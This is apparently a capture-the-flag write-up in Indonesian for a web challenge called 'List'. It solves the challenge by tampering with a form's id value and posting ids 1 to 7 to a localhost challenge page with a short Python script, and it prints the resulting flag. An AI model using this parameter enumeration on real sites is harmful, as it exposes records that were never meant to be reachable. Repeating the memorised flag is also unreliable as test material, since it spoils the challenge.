 <h1><b>List</h1></b>
<pre>
List
</pre>
</b><h3>Solution</h3></b>
<p>Ganti value pada list super hero dengan inspect element, isi value selain yang sudah ada dan submit, cari hingga dapat value berapa=flag</p>

```python
import requests

URL = 'http://localhost/CTF/Web_warning/Web-Warning-8.php'
for i in range(1,8):
    data = {'id':str(i),
            "Submit":"Submit"}
    res = requests.post(URL,data=data).text
    print(res)
```
<p>Karena hasilnya banyak, eksekusi pada terminal dengan grep</p>

```console
root@Python:/home/venom/Downloads# python3 Challenge.py | grep -i ctf
<p class='success'>Hellow iam VenomCTF{l00k_1n_d33p_direct0ry}</p></form>
root@Python:/home/venom/Downloads# 
```
<p>Flag terdapat pada list ke 7</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{l00k_1n_d33p_direct0ry}
</pre>
